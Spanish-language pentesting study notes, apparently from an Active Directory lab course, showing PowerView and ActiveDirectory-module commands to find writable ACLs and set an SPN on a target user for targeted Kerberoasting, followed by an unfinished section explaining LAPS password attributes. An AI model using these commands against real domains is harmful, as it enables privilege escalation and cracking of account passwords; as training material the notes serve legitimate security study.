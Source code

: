 - Si tenemos permisos suficientes (``GenericAll/GenericWrite``) sobre un usuario, el SPN de dicho usuario objetivo puede ser configurado con cualquier cosa (único en el dominio)
- Se pueden solicitar ST sin privilegios especiales.
- Esto es posible cuando la cuenta controlada tiene **GenericAll, GenericWrite, WriteProperty, o Validated-SPN** sobre el objetivo.
### Enumeración

```
### Permisos interesantes del grupo StudentUsers sobre otros
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}

### Permisos del grupo StudentUsers sobre otros
$userSID = (Get-DomainGroup -Identity StudentUsers).objectsid
Get-DomainObjectAcl | ?{$_.SecurityIdentifier -eq $userSID}
```

```
### Ver si el usuario tiene un SPN configurado (Powerview)
Get-DomainUser -Identity support1user | select serviceprincipalname

### Ver si el usuario tiene un SPN configurado (modulo ActiveDirectory)
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```
### Explotación

```
• Configurar SPN (Powerview)
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}

• Configurar SPN (ActiveDirectory module)
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
```

- Los pasos que continúan siguen un proceso similar a ``Kerberoast``
## LAPS

- LAPS es una solución creada por Mircrosoft para administrar contraseñas administrativas.
- LAPS mitiga el riesgo de escalada lateral que se produce cuando los clientes tienen la misma combinación de cuenta local administrativa y contraseña en muchos ordenadores.
- Se puede configurar mediante GPO
- LAPS implementa un control de acceso que regula quién puede leer las contraseñas en texto claro. Solo los Administradores de Dominio y usuarios explícitamente autorizados pueden acceder y leer estas contraseñas.
- Si se logra acceder a la contraseña, se puede acceder al equipo con derechos de administrador local.

Para configurar LAPS se modifica el esquema para la cuenta de máquina y se agregan a dos atributos adicionales:
- Admin Password (``ms-MCS-AdmPwd``): contiene la contraseña del administrador local 
- pwd Expiration Time (``ms-MCS-AdmPwdExpirationTime``): vencimiento de la contraseña
Esta configuración se implementa en un archivo dll llamado ``admpwd.dll`` .
### Enumeración
